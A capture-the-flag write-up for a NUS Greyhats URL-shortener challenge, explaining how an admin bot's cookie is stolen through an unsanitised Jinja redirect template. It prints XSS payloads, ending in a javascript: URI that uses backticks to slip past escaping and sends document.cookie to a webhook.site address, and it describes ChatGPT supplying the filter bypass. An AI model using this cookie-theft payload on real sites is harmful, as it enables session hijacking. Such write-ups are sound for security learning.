 ## Challenge

> Simple URL shortener. What could go wrong?
> 
> http://challs2.nusgreyhats.org:33001/

## Solution

Ctrl+F on the file given, with `FLAG`, we see where the flag can be given: the admin bot! In `bot.js`, under function `visitSubmission`:

```js
await page.setCookie({
    name: 'admin_flag',
    value: FLAG,
    domain: hostname,
    path: '/',
    httpOnly: false,
    secure: false
})
try {
    await page.goto(BASE_URL + id, { waitUntil: 'networkidle2', timeout: 5000 })
}
catch (e) {
    console.log(e)
}
```

Where `BASE_URL = process.env.BASE_URL || 'http://web-oops-app:5000/'`, and `hostname = new URL(BASE_URL).hostname`, which means it only visits the webpage itself. So, this challenge is about somehow stealing the cookie being set to `web-oops-app`.

And surely, there is a Jinja template that potentially allow us to do that:

```html
<script>
    location.href = "{{url}}"
</script>
```

Where `url` can be provided by us. Note that `url` does not have any input sanitation. First thing that comes to my mind is, just inject the url with `"`. Right?

```
#"; fetch("https://http://webhook.site/928039f6-43f5-49f2-8b28-b6d4ee9295ee"); //
```

Err, nothing? Well, I can go to the link and check it out myself. Turns out, the Jinja syntax `{{url}}` escapes all double quotes.

```html
<script>
    location.href = "#&#34;; fetch(&#34;https://http://webhook.site/928039f6-43f5-49f2-8b28-b6d4ee9295ee&#34;); //"
</script>
```

Ooof, that means the redirection is for real -_- Out of ideas, I asked ChatGPT,

```md
A webpage has a following jinja template:

<script>
    location.href = "{{url}}"
</script>

Where url can be determined by the user. Note that this template has default sanitation. What value of url can the user set, so that upon visiting this page, the browser will make a fetch request to https://example.com ?
```

And ChatGPT suggested the following payload:

```
javascript:fetch('https://example.com')
```

Ohh, that makes the webpage actually not redirecting, but instead make a fetch request. Okay, so we are getting somewhere, but the apostrophe is still being escaped -_-,

```html
<script>
    location.href = "javascript:fetch(&#39;https://example.com&#39;)"
</script>
```

Come on ChatGPT! You can do a better job ...

```html
<script>
    location.href = "javascript:fetch(`https://example.com`)"
</script>
```

Ohh yes! The backticks are not being escaped by Jinja! From there, we can easily include the document cookie in the payload!

Now, we change the endpoint to our webhook instead of `example.com`, the payload is as follows:

```
javascript:fetch(`http://webhook.site/928039f6-43f5-49f2-8b28-b6d4ee9295ee/?${document.cookie}`)
```
